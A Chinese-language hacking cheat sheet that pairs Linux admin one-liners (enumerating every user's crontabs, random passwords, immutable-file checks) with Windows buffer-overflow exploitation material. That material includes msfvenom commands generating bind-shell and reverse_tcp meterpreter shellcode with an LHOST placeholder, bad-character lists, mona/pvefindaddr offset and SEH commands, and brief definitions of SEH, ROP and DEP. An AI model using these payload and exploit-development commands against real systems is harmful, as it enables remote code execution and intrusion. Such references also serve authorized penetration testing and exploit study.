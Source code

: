 # 列举所有用户的 crontabs
for user in > $(getent passwd|cut -f1 -d:); do echo "### Crontabs for > $user ####"; crontab -u > $user -l; done
# 生成随机密码
cat /dev/urandom| tr -dc ‘a-zA-Z0-9-_!@#> $%^&*()_+{}|:<>?=’|fold -w 12| head -n 4
# 查找所有不可修改的文件
find . | xargs -I file lsattr -a file 2>/dev/null | grep ‘^….i’
# 使文件不可修改
chattr -i file
Windows 缓冲区溢出利用命令
msfvenom -p windows/shell_bind_tcp -a x86 --platform win -b "\x00" -f c
msfvenom -p windows/meterpreter/reverse_tcp LHOST=X.X.X.X LPORT=443 -a x86 --platform win -e x86/shikata_ga_nai -b "\x00" -f c
COMMONLY USED BAD CHARACTERS:
\x00\x0a\x0d\x20                              For http request
\x00\x0a\x0d\x20\x1a\x2c\x2e\3a\x5c           Ending with (0\n\r_)
# 常用命令:
pattern create
pattern offset (EIP Address)
pattern offset (ESP Address)
add garbage upto EIP value and add (JMP ESP address) in EIP . (ESP = shellcode )
!pvefindaddr pattern_create 5000
!pvefindaddr suggest
!pvefindaddr modules
!pvefindaddr nosafeseh
!mona config -set workingfolder C:\Mona\%p
!mona config -get workingfolder
!mona mod
!mona bytearray -b "\x00\x0a"
!mona pc 5000
!mona po EIP
!mona suggest
SEH – 结构化异常处理
注：SEH(“Structured Exception Handling”)，即结构化异常处理，是 windows 操作系统提供给程序设计者的强有力的处理程序错误或异常的武器。
# https://en.wikipedia.org/wiki/Microsoft-specific_exception_handling_mechanisms#SEH
# http://baike.baidu.com/view/243131.htm
!mona suggest
!mona nosafeseh
nseh="\xeb\x06\x90\x90" (next seh chain)
iseh= !pvefindaddr p1 -n -o -i (POP POP RETRUN or POPr32,POPr32,RETN)
ROP (DEP)
注：ROP(“Return-Oriented Programming”)是计算机安全漏洞利用技术，该技术允许攻击者在安全防御的情况下执行代码，如不可执行的内存和代码签名。
DEP(“Data Execution Prevention”)是一套软硬件技术，在内存上严格将代码和数据进行区分，防止数据当做代码执行。
# https://en.wikipedia.org/wiki/Return-oriented_programming
# https://zh.wikipedia.org/wiki/%E8%BF%94%E5%9B%9E%E5%AF%BC%E5%90%91%E7%BC%96%E7%A8%8B
# https://en.wikipedia.org/wiki/Data_Execution_Prevention